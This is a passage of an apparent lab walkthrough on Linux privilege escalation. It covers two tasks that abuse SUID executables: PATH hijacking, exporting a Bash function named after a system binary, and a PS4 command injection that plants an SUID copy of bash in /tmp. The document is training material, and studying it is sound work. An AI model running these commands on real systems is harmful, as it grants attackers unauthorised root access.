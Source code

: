 ```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above

```No answer needed```

## Task 14: SUID / SGID Executables - Abusing Shell Features (#1)

* The __/usr/local/bin/suid-env2__ executable is identical to __/usr/local/bin/suid-env__ except that it uses the absolute path of the service executable (_/usr/sbin/service_) to start the __apache2__ webserver.

* Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

* In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

* Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

* Create a Bash function with the name "__/usr/sbin/service__" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

* Run the __suid-env2__ executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 15: SUID / SGID Executables - Abusing Shell Features (#2)

> Note: This will not work on Bash versions 4.4 and above.

* When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

* Run the __/usr/local/bin/suid-env2__ executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of __/bin/bash__:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```